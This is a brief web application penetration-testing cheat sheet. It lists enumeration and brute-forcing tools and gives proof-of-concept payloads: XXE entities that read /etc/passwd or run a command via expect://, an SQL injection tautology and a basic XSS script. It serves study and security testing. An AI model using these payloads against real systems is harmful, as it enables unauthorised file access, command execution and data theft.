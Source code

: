 ```yaml
---
layout: page
title: Web App
permalink: /web/
---
```


# Index

* [Enumeration](#enumeration)
* [Authentication](#authentication)
* [Session Management](#session-management)
* [XML External Entity](#xml-external-entity)
* [SQL Injection](#sql-injection)
* [Cross Site Scripting](#cross-site-scripting)
* [Deserialization](#deserialization)
* [Other Tools](#other-tools)
* [Methodology](#methodology)

## Enumeration

Enumerating a web application is best performed manually with automated augmentations.

### Spidering

`burpsuite`

### Directory Brute Forcing

`dirbuster`

### Web Server Scanning

`nikto`

---

## Authentication

### Brute Forcing Online

`hydra`

---

## Session Management

---

## XML External Entity

Local file inclusion

```XML
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [ <!ELEMENT foo ANY >
<!ENTITY xxe SYSTEM "file:///etc/passwd" >]>
<creds>
    <user>&xxe;</user>
    <pass>mypass</pass>
</creds>
```

Remote code exectuion

```XML
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [ <!ELEMENT foo ANY >
<!ENTITY xxe SYSTEM "expect://id" >]>
<creds>
    <user>&xxe;</user>
    <pass>mypass</pass>
</creds>
```
Above is just proof of concept, other functions exist.

---

## SQL Injection

Suppose a SQL query like below, where parameters are received from user input

```SQL
SELECT id FROM users WHERE username='$username' AND password='$password';
```

If we managed to input data like below we could return unintended data.

```SQL
SELECT username FROM users WHERE username='' or '1'='1' AND password='' or '1'='1'
```

`sqlmap`

---

## Cross Site Scripting

Wherever user input is reflect in the site test for XSS with:

``` Javascript
    <script>alert('x')</script>
```

---

## Deserialization

---

## Other Tools

* FoxyProxy - simple proxy switcher for firefox
* w3af - Web Application Scanner
* wikto/Nikto - Web server scanner
* Firebug/Chrome Dev tools - Inspecting client side
* Hydra - Password brute forcing

### Unix Commands

* wget - easily download files
* curl - can make post requests too
* ncat - tcp/ip swiss army knife
* socat - two way netcat
* stunnel - ssl tunnel

---

## Methodology

See:
* The Web Application Hacker's Handbook - Chapter 21
* https://jdow.io/blog/2018/03/18/web-application-penetration-testing-methodology/
